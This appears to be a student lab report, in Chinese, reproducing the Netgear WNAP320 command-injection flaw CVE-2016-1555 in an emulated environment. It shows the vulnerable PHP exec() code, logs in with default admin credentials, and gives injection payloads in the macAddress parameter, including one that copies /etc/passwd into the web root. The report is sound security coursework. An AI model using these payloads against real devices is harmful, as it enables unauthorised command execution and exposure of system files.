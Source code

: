 # 路由器漏洞分析之 CVE-2016-1555

## 实验要求

选取参考链接（或自行搜索）页面中任意一个路由器、摄像头或者其它智能设备的固件漏洞，对目标固件进行逆向工程和漏洞分析，剖析漏洞机理，找到漏洞利用方法，编写漏洞利用代码，展示漏洞利用效果，简述漏洞防护方法。具体要求：

1、全程记录过程，形成文档，文件名中标明漏洞的CVE编号。

2、提交文件，压缩包中包含固件、源代码等。

3、可借鉴他人思路和方法，坚决杜绝全文拷贝。

## 实验环境

- AttifyOS v3.0
- virtualbox  6.1.30 r148432 (Qt5.6.2)

## 实验流程

### 漏洞简介

NVD的漏洞描述(https://nvd.nist.gov/vuln/detail/CVE-2016-1555)如下：

(1) boardData102.php, (2) boardData103.php, (3) boardDataJP.php, (4) boardDataNA.php, and (5) boardDataWW.php in Netgear WN604 before 3.3.3 and WN802Tv2, WNAP210v2, WNAP320, WNDAP350, WNDAP360, and WNDAP660 before 3.5.5.0 allow remote attackers to execute arbitrary commands.

即，在上述固件中的上述php文件中，存在明显的远程代码执行漏洞。

本次漏洞复现实验选取的固件版本为：WNAP320

### 搭建虚拟环境

```shell
# 使用Firmware-analysis-toolkit集成工具
./fat.py WNAP320\ Firmware\ Version\ 2.0.3.zip 
```

![](./img/fat.png)

记下虚拟环境的登入口IP地址：192.168.0.100

![](./img/login.png)

虚拟环境搭建完成。

### 漏洞分析

使用binwalk解包固件：

```
binwalk -Me WNAP320\ Firmware\ Version\ 2.0.3.zip 
# -Me 表示递归分解
```

得到文件如下图所示：

![](./img/binwalk.png)

发现这是一个 `squashfs` 文件系统，里面是标准的 `linux` 目录结构，所以这个固件应该是基于 `linux` 做的。

根据NVD中的简介可以得知，这些含有漏洞的PHP文件很有可能是在/home/www/文件目录下：

```shell
iot@attifyos ~/t/f/_/_/_/s/h/www> ls
background.html   data.php            login_header.php   support.link
BackupConfig.php  downloadFile.php    login.php          templates/
boardDataNA.php   getBoardConfig.php  logout.html        test.php
boardDataWW.php   getJsonData.php     logout.php         thirdMenu.html
body.php          header.php          monitorFile.cfg    thirdMenu.php
button.html       help/               packetCapture.php  titleLogo.php
checkConfig.php   images/             recreate.php       tmpl/
checkSession.php  include/            redirect.html      UserGuide.html
clearLog.php      index.php           redirect.php
common.php        killall.php         saveTable.php
config.php        login_button.html   siteSurvey.php

```

查看boardDataWW.php：```vim boardDataWW.php ```

文件内容如下所示（仅展示部分与漏洞相关的）：

```php
<?php
	$flag=false;
	$msg='';
	if (!empty($_REQUEST['writeData'])) {
		if (!empty($_REQUEST['macAddress']) && array_search($_REQUEST['reginfo'],Array('WW'=>'0','NA'=>'1'))!==false && ereg("[0-9a-fA-F]{12,12}",$_REQUEST['macAddress'],$regs)!==false) {
			//echo "test ".$_REQUEST['macAddress']." ".$_REQUEST['reginfo'];
			//exec("wr_mfg_data ".$_REQUEST['macAddress']." ".$_REQUEST['reginfo'],$dummy,$res);
			exec("wr_mfg_data -m ".$_REQUEST['macAddress']." -c ".$_REQUEST['reginfo'],$dummy,$res);
			if ($res==0) {
				conf_set_buffer("system:basicSettings:apName netgear".substr($_REQUEST['macAddress'], -6)."\n");
				conf_save();
				$msg = 'Update Success!';
				$flag = true;
			}
		}
		else
			$flag = true;
	}

?>
```

可以看到关于“macAddress”所做的限制仅限在了客户端，远远是不够的。

### 漏洞复现

#### 获取默认用户名及密码

```
# vim login.php
$passStr = conf_get("system:basicSettings:adminPasswd");
    	$str = explode(' ',$passStr);
	$str[1] = str_replace('\:',':',$str[1]);
	//$str[1] = str_replace('\\ ',' ',$str[1]);
	//$str[1] = str_replace('\\\\','\\',$str[1]);
    //$str[1] = 'password';
	
    if ($_REQUEST['username'] == 'admin' && htmlentities($_REQUEST['password']) == htmlentities($str[1])) {
    	if (checkSessionExpired()===false) {
    		echo 'sessionexists';
    	}
```

猜测用户名和密码分别为：admin,password；

测试发现还真是：

![](./img/getin.png)

#### PHP注入

由于我们之前看到的漏洞文件是boardDataWW.php，于是尝试访问这个URL：

![](./img/macaddress.png)

看到了一个提交MAC地址的窗口，我们接下来只需要在网页端填上符合条件的MAC地址，使用burpsuite捕获并修改这一参数即可。

填上“111111111111”并提交，被监听着的burpsuite捕获：

![](./img/57ms.png)

注意到我们提交的MAC地址参数和响应时间为57ms；

利用响应时间进行测试，看能不能成功注入：

![](./img/5kms.png)

MAC地址对应的参数被我们加上了```;sleep+5+#```，如果成功注入，那么响应时间会在原来的基础上多5s即5000ms左右——事实也正是如此，说明利用这个漏洞能成功注入。

#### 远程代码执行

在原有的MAC地址参数后加入我们需要执行的命令：

```;cp+/etc/passwd+./passwd/html+#```

![](./img/succ.png)

可以看到成功执行了该命令，漏洞复现完成。

### 预防方法

这个其实是老生常谈了，数据检查不仅仅应该在客户端执行，也要在服务器端执行。

## 参考资料

- https://nvd.nist.gov/vuln/detail/CVE-2016-1555

